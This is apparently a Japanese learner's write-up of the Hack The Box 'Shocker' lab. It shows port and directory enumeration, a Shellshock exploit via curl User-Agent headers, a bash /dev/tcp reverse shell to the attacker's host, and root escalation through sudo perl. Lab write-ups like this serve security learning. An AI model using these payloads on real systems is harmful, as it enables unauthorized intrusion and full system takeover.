

# Shocker

* 疎通確認

  ```bash
  └─$ ping 10.10.10.56
  PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
  64 bytes from 10.10.10.56: icmp_seq=9 ttl=63 time=219 ms
  ```

* ディレクトリ作成

  ```bash
  ┌──(kali㉿kali)-[~/Documents/HTB/Shocker]
  └─$ pwd                                                            
  /home/kali/Documents/HTB/Shocker
  ```

* nmap実施

  ```bash
  nmap -sV 10.10.10.56                                       
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 19:57 JST
  Nmap scan report for 10.10.10.56
  Host is up (0.19s latency).
  Not shown: 998 closed tcp ports (conn-refused)
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  ```

* httpにアクセスしてみる。（かわいい）

  

* Apache httpd 2.4.18の脆弱性を確認する

  ```bash
  $ searchsploit Apache httpd 2.4.18
  Exploits: No Results                                                     
  Shellcodes: No Results 
  ```

* OpenSSHの脆弱性を確認する

  ```bash
  earchsploit OpenSSH 7.2p2
  ------------------------------------------------ ---------------------------------
   Exploit Title                                  |  Path
  ------------------------------------------------ ---------------------------------
  OpenSSH 2.3 < 7.7 - Username Enumeration        | linux/remote/45233.py
  OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)  | linux/remote/45210.py
  OpenSSH 7.2p2 - Username Enumeration            | linux/remote/40136.py
  OpenSSH < 7.4 - 'UsePrivilegeSeparation Disable | linux/local/40962.txt
  OpenSSH < 7.4 - agent Protocol Arbitrary Librar | linux/remote/40963.txt
  OpenSSH < 7.7 - User Enumeration (2)            | linux/remote/45939.py
  OpenSSHd 7.2p2 - Username Enumeration           | linux/remote/40113.txt
  ------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

  * Username Enumerationできても特に有用なことがなさそうなので、UsePrivilegeSeparation DisableについてPocを試してみたい。
    上記の機能が有効に働かないことでroot権限を奪取することができるみたい。
    
  * [Exploit-DB](https://www.exploit-db.com/exploits/40962)
  
    * Pocをダウンロードしようとしたがすでにネット上からは消えていた。
  
    * metasploitでも検索したがそれらしいものがなかった。
  
      ```bash
      msf6 > search OpenSSH
      
      Matching Modules
      ================
      
         #  Name                                         Disclosure Date  Rank       Check  Description
         -  ----                                         ---------------  ----       -----  -----------
         0  post/windows/manage/forward_pageant                           normal     No     Forward SSH Agent Requests To Remote Pageant
         1  post/windows/manage/install_ssh                               normal     No     Install OpenSSH for Windows
         2  post/multi/gather/ssh_creds                                   normal     No     Multi Gather OpenSSH PKI Credentials Collection
         3  auxiliary/scanner/ssh/ssh_enumusers                           normal     No     SSH Username Enumeration
         4  exploit/windows/local/unquoted_service_path  2001-10-25       excellent  Yes    Windows Unquoted Service Path Privilege Escalation
      
      
      Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/unquoted_service_path
      
      ```

* ブラウザの脆弱性を確認してみる。

  わからなかったので、writeupに進む

### 以降 Writeupを参照

* [参考writeup](https://qiita.com/Griffin/items/1eca2ad64df7c67c3d34)
* 脆弱性調査までは大体一緒であった。
* webサイトの調査から一緒に実施していく。

### 情報列挙(Enumeration)

* ディレクトリ探索

  * dirbを実行してみる。

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo dirb http://10.10.10.56
    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------
    
    START_TIME: Sat Jul  9 11:35:36 2022
    URL_BASE: http://10.10.10.56/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.56/ ----
    + http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                     
    + http://10.10.10.56/index.html (CODE:200|SIZE:137)                   
    + http://10.10.10.56/server-status (CODE:403|SIZE:299)
    -----------------
    END_TIME: Sat Jul  9 11:44:29 2022
    DOWNLOADED: 4612 - FOUND: 3
    ```
    

* /cgi-bin/にアクセスすると403 forbittenがかえってくる

  

  * [cgiとは](https://www.tohoho-web.com/wwwcgi1.htm)
    * 「CGI」とはWWWサーバーがプログラムを起動する際の起動方法（環境変数の名前や値）を定めた仕様の名称。この仕様に基づいて作成されたプログラムを「CGIプログラム」と呼ぶ。「CGIプログラム」のうち、Perl, awk, shなどコンパイル作業が不要なスクリプト言語で記述されたものを「CGIスクリプト」と呼びます。CGIプログラムはPerlで記述されたものが多いが、環境変数と標準入力を参照できて、結果を標準出力に書き出せるものであればC言語、C＋＋言語、VisualBasicでもなんでも構わない。
  * cgi-binディレクトリがあるということは、その配下に何かしらのcgiスクリプトがあることが疑われる。

* オプションで-Xオプションを指定し、探索したい拡張子を指定して実行する。

  ```bash
  └─$ dirb http://10.10.10.56/cgi-bin/ -X .sh,.pl,.txt,.php,.py
  -----------------
  DIRB v2.22    
  By The Dark Raver
  -----------------
  
  START_TIME: Sat Jul  9 11:50:38 2022
  URL_BASE: http://10.10.10.56/cgi-bin/
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  EXTENSIONS_LIST: (.sh,.pl,.txt,.php,.py) | (.sh)(.pl)(.txt)(.php)(.py) [NUM = 5]
  
  -----------------
  GENERATED WORDS: 4612                                                          
  ---- Scanning URL: http://10.10.10.56/cgi-bin/ ----
  + http://10.10.10.56/cgi-bin/user.sh (CODE:200|SIZE:118)
  -----------------
  END_TIME: Sat Jul  9 12:34:55 2022
  DOWNLOADED: 23060 - FOUND: 1
  ```

  *  -X <extensions> / -x <exts_file> : Append each word with this extensions.

* user.shの中身を見てみる。

  ```bash
  wget http://10.10.10.56/cgi-bin/user.sh
  --2022-07-09 11:59:40--  http://10.10.10.56/cgi-bin/user.sh
  10.10.10.56:80 に接続しています... 接続しました。
  HTTP による接続要求を送信しました、応答を待っています... 200 OK
  長さ: 特定できません [text/x-sh]
  `user.sh' に保存中
  
  user.sh                   [ <=>                      ]     119  --.-KB/s 時間 0s       
  
  2022-07-09 11:59:41 (307 KB/s) - `user.sh' へ保存終了 [119]
  
  ┌──(kali㉿kali)-[~]
  └─$ ls
  Desktop    Downloads  Pictures  Templates  ansible  user.sh
  Documents  Music      Public    Videos     pentest
  
  ┌──(kali㉿kali)-[~]
  └─$ cat user.sh 
  Content-Type: text/plain
  
  Just an uptime test script
  
   22:59:41 up 29 min,  0 users,  load average: 0.00, 0.00, 0.00
  
  
  ```

  * ファイルの内容から、Linuxサーバーのuptimeコマンドを実行していると推測（難しい...)

    * [uptimeコマンド](https://eng-entrance.com/linux-command-uptime)
      * Linuxの稼働時間を表示する

  * shellにコマンドを渡して実行しているという挙動からShellShockの脆弱性を想起するらしい。

    https://www.digicert.com/jp/blog/shellshock-cve-2014-6271/

  * Nmap NSEのスクリプトを活用し、shellshockの脆弱性が内在しているかを確認する。

    ```
    
    ```

  * 脆弱性を悪用してコマンド実行してみる

    ```c
    //実行できなかった
    curl -A "() { :;};echo hello;/usr/bin/id" [http://10.10.10.56/cgi-bin/user.sh](http://10.10.10.56/cgi-bin/user.sh)
    ```

  * writeupのコマンドで実行できなかったので別のサイトを参照

    https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-%C3%B6ner

    ```bash
     curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh
    
    uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
    ```

    

  * なぜ「() { :;};」でコマンドが実行されるかの解説

    https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
  
    [参考資料](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)
  
    * bashについて
  
      * .shで利用することができる
      * "one-liners"で定義することができる
  
      ```bash
      ┌──(kali㉿kali)-[~]
      └─$ welcome() { echo "Hi $USER, here's the date:"; date; }
      
      ┌──(kali㉿kali)-[~]
      └─$ welcome
      Hi kali, here's the date:
      2022年  7月  9日 土曜日 16:15:27 JST
      ```
  
  * コマンド実行できるようになったのでリバースシェルを取ります。
  
    * kaliで443ポートで待機
  
      ```bash
      ┌──(kali㉿kali)-[~]
      └─$ nc -lvnp 4444
      listening on [any] 4444 ...
      ```
  
    * リバースシェルコマンドの実行
  
      ```bash
      curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.16.2/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
      ```
  
      * \>&：">& hoge.txt" は "> hoge.txt 2>&1"と同じ意味。つまり/bin/bash -i を実行したときの標準入力(0)、標準出力(1)、標準エラー(2)を/dev/tcp/10.10.14.30/443にリダイレクトしている
  
      * /dev/tcp/10.10.14.30/443：
  
        ```
        bash は、以下の表にあるようなファイル名がリダイレクトに使用されると、それらを特別に扱います。
        
          /dev/tcp/host/port
            host が有効なホスト名またはインターネットアドレスで port が整数のポート番号ならば、
            bash は対応するソケットに対して TCP 接続のオープンを試みます。
        
          /dev/udp/host/port
            host が有効なホスト名またはインターネットアドレスで port が整数のポート番号ならば、
            bash は対応するソケットに対して UDP 接続のオープンを試みます。
        ```
  
        [参考サイト](https://hogem.hatenablog.com/entry/20141008/1412778085)
  
  * root escalation
  
    * カレントユーザのsudoパーミッションを確認する。
  
    ```bash
    shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
    sudo -l
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
    ```
  
    →perlの実行権限があることがわかる。
  
  * perlで/bin/shを取得する
  
    ```bash
    sudo perl -e 'exec "/bin/sh";'
    ```
  
    ```bash
    ──(kali㉿kali)-[~/Documents/HTB/Shocker]
    └─$ nc -lvnp 443                                                                                                       
    listening on [any] 443 ...
    connect to [10.10.16.2] from (UNKNOWN) [10.10.10.56] 59428
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
    sudo perl -e 'exec "/bin/sh";'
    id
    uid=0(root) gid=0(root) groups=0(root)
    cd ~
    ls
    root.txt
    cat root.txt
    ```
  
    

## 所感

* nmapを-sV＋-p-でやるとものすごく時間かかるのでやめる。

* 難しい。まだまだ能力が足りない。全部終わるのになんだかんだ5-6時間かかってしまった。悲しい。コマンドの理解も十分ではない。研鑽を積んでいきたい。
* tcpポートでのリバースシェルの実行方法は有効活用できそうなのでぜひ覚えること